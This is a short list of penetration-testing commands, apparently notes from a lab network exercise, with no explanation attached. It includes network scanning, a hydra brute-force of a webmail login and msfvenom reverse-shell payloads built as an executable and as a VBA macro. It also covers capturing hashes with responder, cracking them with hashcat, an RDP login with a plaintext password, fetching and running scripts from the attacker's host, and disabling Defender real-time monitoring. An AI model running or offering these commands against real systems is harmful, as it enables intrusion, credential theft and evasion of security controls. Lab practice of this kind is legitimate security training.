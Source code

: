 # Commands
---
```shell
nmap -sV -sC -p- -v 10.200.29.0/24 --min-rate 5000

cat /var/log/login.log

hydra -L mail_users.txt -P mail_passwords.txt 10.200.29.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' -I

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe -o shell.exe

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT 53
set LHOST tun0
exploit -j

sudo responder -I tun0

(penglab) hashcat -m 5600 -r OneRuleToRuleThemAll.rule --force petersj.hash.txt /content/wordlists/rockyou.txt 

sudo ./ps-empire server
sudo ./starkiller-1.12.0.AppImage --no-sandbox

python3 -m http.server

xfreerdp /u:PetersJ /p:'Throwback317' /v:10.200.29.219

wget http://10.50.27.129:8000/launcher.bat -outfile launcher.bat
wget http://10.50.27.129:8000/seatbelt.exe -outfile seatbelt.exe
./launcher.bat

runas /savecred /user:admin-petersj /profile "cmd.exe"



```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f vba -o macro.vba
Set-MpPreference -DisableRealtimeMonitoring $true
